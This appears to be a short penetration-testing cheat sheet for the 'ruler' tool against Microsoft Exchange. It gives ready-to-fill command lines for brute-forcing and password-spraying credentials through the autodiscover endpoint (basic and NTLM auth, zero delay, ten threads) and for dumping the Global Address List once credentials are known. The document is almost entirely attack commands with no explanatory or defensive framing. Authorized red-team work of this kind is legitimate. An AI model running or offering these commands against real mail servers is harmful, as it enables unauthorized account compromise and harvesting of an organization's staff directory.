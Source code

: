 # ruler
% exchange
#plateform/linux  #target/remote  #protocol/exchange 


## autodiscover brute-force (basic auth)
#cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
./ruler --basic --insecure --nocache --url  https://<fqdn>/autodiscover/autodiscover.xml -d <domain>   brute --users ./users.txt --passwords <password_wl> --verbose  --delay 0  --stop --threads 10
```

## autodiscover brute-force(NTLM auth)
#cat/ATTACK/BRUTEFORCE-SPRAY 
```bash
./ruler--insecure --nocache --url  https://<fqdn>/autodiscover/autodiscover.xml -d <domain>   brute --users ./users.txt --passwords <password_wl> --verbose  --delay 0  --stop --threads 10
```

## GAL dumping
#cat/ATTACK/EXPLOIT 
```bash
 ./ruler -k -d <domain> -u <user> -p '<password>' -e <email> --verbose abk dump -o <out_file|gal.txt>
```